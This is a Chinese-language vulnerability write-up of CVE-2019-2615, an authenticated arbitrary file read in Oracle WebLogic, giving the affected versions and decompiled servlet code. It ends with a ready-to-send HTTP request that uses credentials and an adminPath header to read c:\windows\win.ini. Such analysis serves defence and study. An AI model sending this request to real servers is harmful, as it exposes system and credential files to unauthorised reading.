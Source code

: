 （CVE-2019-2615）Weblogic 任意文件读取漏洞
==========================================

一、漏洞简介
------------

攻击者可以在已知用户名密码的情况下读取WebLogic服务器中的任意文件。

二、漏洞影响
------------

Weblogic 10.3.6.0Weblogic 12.1.3.0Weblogic 12.2.1.2Weblogic 12.2.1.3

三、复现过程
------------

### 漏洞分析

该功能的关键代码在
`weblogic.management.servlet.FileDistributionServlet`的doGet()方法中：

    public void doGet(final HttpServletRequest var1, final HttpServletResponse var2) throws ServletException, IOException {
        AuthenticatedSubject var3 = this.authenticateRequest(var1, var2);
        if(var3 != null) {
            final String var4 = var1.getHeader("wl_request_type");
            if(var3 != KERNEL_ID) {
                AdminResource var5 = new AdminResource("FileDownload", (String)null, var4);
                if(!this.am.isAccessAllowed(var3, var5, (ContextHandler)null)) {
                    ManagementLogger.logErrorFDSUnauthorizedDownloadAttempt(var3.getName(), var4);
                    var2.sendError(401);
                    return;
                }
            }

            try {
                if(debugLogger.isDebugEnabled()) {
                    debugLogger.debug("---- >doGet incoming request: " + var4);
                }

                if(var4.equals("wl_xml_entity_request")) {
                    this.doGetXMLEntityRequest(var1, var2);
                } else if(var4.equals("wl_jsp_refresh_request")) {
                    this.doGetJspRefreshRequest(var1, var2);
                } else if(var4.equals("file")) {
                    this.doGetFile(var1, var2);
                } else if(!var4.equals("wl_init_replica_request") && !var4.equals("wl_file_realm_request") && !var4.equals("wl_managed_server_independence_request")) {
                    var2.addHeader("ErrorMsg", "Bad request type");
                    String var10 = Utils.encodeXSS(var4);
                    var2.sendError(400, "Bad request type: " + var10);
                    ManagementLogger.logBadRequestInFileDistributionServlet(var4);
                } else {
                    ......
                    ......
                    }
                }
            } catch (Exception var9) {
                if(!Kernel.isInitialized()) {
                    throw new AssertionError("kernel not initialized");
                }

                ManagementLogger.logErrorInFileDistributionServlet(var4, var9);
            }

        }
    }

代码也比较简单，先取request中header的参数\"wl\_request\_type\"的值，然后判断如果该值等于"wl\_xml\_entity\_request"、"wl\_jsp\_refresh\_request"、"file"\...\...则分别调用各自的方法，进入下一步判断。我们看一下如果wl\_request\_type的值为"wl\_jsp\_refresh\_request"，进入doGetJspRefreshRequest()方法。我们跟入doGetJspRefreshRequest()方法：

    private void doGetJspRefreshRequest(HttpServletRequest var1, HttpServletResponse var2) throws IOException {
         String var3 = var1.getHeader("adminPath");

         try {
             FileInputStream var4 = new FileInputStream(var3);

             try {
                 var2.setContentType("text/plain");
                 var2.setStatus(200);
                 this.returnInputStream(var4, var2.getOutputStream());
             } finally {
                 var4.close();
             }

         } catch (IOException var10) {
             String var5 = "I/O Exception getting resource: " + var10.getMessage();
             var2.addHeader("ErrorMsg", var5);
             var2.sendError(500, var5);
         }
     }

doGetJspRefreshRequest()方法中的"adminPath"也是request中的header参数，我们在Post包中传入要读取的文件。进入该方法中，直接使用FileInputStream类进行文件读取，故造成了所谓的"任意文件读取"漏洞。

### 漏洞复现

    GET /bea_wls_management_internal2/wl_management HTTP/1.1
    Host: www.0-sec.org:7001
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    username:weblogic
    password:admin123456
    wl_request_type:wl_jsp_refresh_request
    adminPath:c:\windows\win.ini
    Upgrade-Insecure-Requests: 1

![M\~P\`JFB4OPB3JUN7FJ\_F.png](resource/(CVE-2019-2615)Weblogic任意文件读取漏洞/media/rId26.png)
